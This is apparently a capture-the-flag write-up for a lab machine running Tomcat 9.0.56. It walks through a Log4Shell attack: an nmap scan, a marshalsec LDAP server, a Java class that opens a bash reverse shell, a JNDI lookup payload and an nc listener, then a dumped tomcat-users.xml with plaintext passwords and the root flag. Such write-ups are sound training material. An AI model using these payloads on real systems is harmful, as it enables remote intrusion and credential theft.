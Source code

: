 ```yaml
---
title: "Feedback"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



Scan : 

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c1c1b4297485c9be409852fe7228bb76 (RSA)
|   256 e2bd0b90770c51fc9de4a6da794bdd96 (ECDSA)
|_  256 e8bae65c69921d2ee53f86a4bbfa7de2 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- Set Up a Malicious LDAP Server

You can use tools like marshalsec to set up an LDAP server that will return a malicious Java class file.
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
```

- Compile the project:

```sh
mvn clean package -DskipTests
```

Run the LDAP server:

```sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-server.com:8888/#Exploit"
```

- Create a Malicious Java Class for Reverse Shell

```java

import java.io.IOException;

public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/your-ip/your-port 0>&1"};
            java.lang.Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

- Compile this class:

```sh
javac -source 1.8 -target 1.8 Exploit.java
```
- Start a simple HTTP server to serve this class
```sh
python3 -m http.server 8888
```
- Trigger the Vulnerability

Send a payload to the vulnerable application that triggers the LDAP lookup. This payload will point to your malicious LDAP server, which in turn will instruct the application to load the malicious class file from your HTTP server.

- Payload:

```
 ${jndi:ldap://your-server.com:1389/a}
```

- Start a Listener for the Reverse Shell

```sh
nc -lvnp your-port
```

User:
- After the foot hold we grab that file : 
```sh
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>
```

- su root  gg you got the flag ;)

Root:VL{25da7f42f4e279698c91c0ce911d51a9}
